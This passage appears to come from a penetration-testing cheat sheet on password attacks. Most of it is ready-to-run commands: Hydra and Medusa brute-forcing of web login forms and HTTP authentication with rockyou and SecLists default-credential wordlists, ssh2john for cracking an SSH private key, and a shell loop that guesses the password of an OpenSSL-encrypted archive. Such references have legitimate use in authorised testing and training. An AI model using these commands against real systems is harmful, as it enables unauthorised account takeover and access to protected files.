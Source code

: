 - login.php: url
- username=^USER^&password=^PASS^: parameters to POST (Capture on Burp Suite)
- Third: form name (Check source code)

```bash
$ medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"
```

### Default Passwords
`/usr/share/wordlists/seclists/Passwords/Default-Credentials`

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <IP> -s <PORT> http-get /
```

### Username/Password Attack
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f <IP> -s <PORT> http-get /
```

### Username Brute Force
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -p <PASSWORD> -u -f <IP> -s <PORT> http-get /
```

# Protected Files
## Cracking with John
```bash
$ locate *2john*
```

```bash
$ ssh2john.py SSH.private > ssh.hash
```

## Cracking OpenSSL Encrypted Archives
```bash 
$ file GZIP.gzip 

GZIP.gzip: openssl enc'd data with salted password
```

### Using a for-loop to Display Extracted Contents
```bash
$ for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```
